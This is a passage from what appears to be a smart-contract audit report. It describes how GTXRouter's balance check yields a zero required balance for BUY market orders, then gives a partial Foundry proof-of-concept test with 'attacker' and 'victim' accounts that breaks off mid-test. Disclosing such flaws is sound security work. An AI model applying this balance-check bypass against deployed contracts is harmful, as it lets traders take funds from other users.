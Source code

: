 Meanwhile, if we look at the `_validateCallerBalance()` function, because of the two values of the two variables above, the calculation value for `requiredBalance = 0` if the user initiates a BUY market order.

```solidity
if (_side == IOrderBook.Side.BUY) {
   depositCurrency = pool.quoteCurrency;
   uint128 price;

      if (_isMarketOrder) {
         price = pool.orderBook.getBestPrice(IOrderBook.Side.SELL).price; 
      } else {
        price = _price;
       }

// price will be equal to 0 then requiredBalance = 0
requiredBalance = PoolIdLibrary.baseToQuote(_quantity, price, pool.baseCurrency.decimals());
```

### **Proof of Concept**

add modify function for testing only into `GTXRouter.sol` :

```solidity
function placeMarketOrderInvalidRequiredBalanceValidation(
        IPoolManager.Pool memory pool,
        uint128 _quantity,
        IOrderBook.Side _side,
        address _user
    ) public view returns (Currency depositBalance, uint256 requiredBalance) {
       (depositBalance, requiredBalance) = _validateCallerBalance(pool, _user, _side, _quantity, 0, false, false);
    }
```

This function only to show how `requiredBalance` didn’t work as expected

add test on `GTXRouterTest.sol` and run `forge test --match-test testInvalidValidationForRequiredBalance -vvv`

```solidity
 function testInvalidValidationForRequiredBalance() public {
        IPoolManager.Pool memory pool = _getPool(weth, usdc);

        // Setup a proper order book with liquidity on both sides
        vm.startPrank(user);
        // Add sell orders
        mockWETH.mint(user, 10 ether);
        IERC20(Currency.unwrap(weth)).approve(address(balanceManager), 10 ether);
        balanceManager.deposit(weth, 10 ether, user, user);
        uint128 sellPrice = 3000 * 10 ** 6; // 3000 USDC per ETH
        uint128 sellQty = 1 * 10 ** 18; // 1 ETH
        gtxRouter.placeOrder(pool, sellPrice, sellQty, IOrderBook.Side.SELL, user);

        // Add buy orders
        mockUSDC.mint(user, 10_000 * 10 ** 6);
        IERC20(Currency.unwrap(usdc)).approve(address(balanceManager), 10_000 * 10 ** 6);
        balanceManager.deposit(usdc, 10_000 * 10 ** 6, user, user);
        uint128 buyPrice = 2900 * 10 ** 6; // 2900 USDC per ETH
        uint128 buyQty = 1 * 10 ** 18; // 1 ETH
        gtxRouter.placeOrder(pool, buyPrice, buyQty, IOrderBook.Side.BUY, user);
        vm.stopPrank();

        address victim = makeAddr("victim");

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
```